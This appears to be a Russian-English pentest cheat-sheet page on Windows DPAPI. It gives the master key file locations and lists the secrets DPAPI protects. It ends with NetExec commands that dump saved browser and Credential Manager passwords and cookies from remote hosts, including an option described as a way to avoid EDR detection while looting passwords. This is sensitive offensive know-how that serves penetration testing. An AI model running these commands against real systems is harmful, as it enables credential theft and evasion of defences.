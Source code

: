 ```yaml
---
description: Data Protection API
---
```


# DPAPI

### Master keys

Пользовательский мастер-ключ хранится в профиле пользователя по следующему пути:\
`Users\%USER%\AppData\Roaming\Microsoft\Protect\%SID%\`

Системные мастер-ключи хранятся по следующему пути:\
`windows\system32\Microsoft\Protect\S-1-5-18\`

Аналогично с пользователем – используется один мастер-ключ, имя которого можно найти в файле Preferred, где хранятся все когда-либо используемые ключи.



### What Stored

DPAPI используется для шифрования закрытых ключей клиентских и системных сертификатов, WIFI ключей, Chrome (cookie, паролей), DropBox, Skype, RSA SecurID (софтварного приложения, которое генерирует одноразовые ключи) etc.



### Dump

You can dump DPAPI credentials using NetExec using the following option --dpapi. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. --dpapi support options :

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords

You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account

```bash
nxc smb <ip> -u user -p password --dpapi
nxc smb <ip> -u user -p password --dpapi cookies
nxc smb <ip> -u user -p password --dpapi nosystem
```
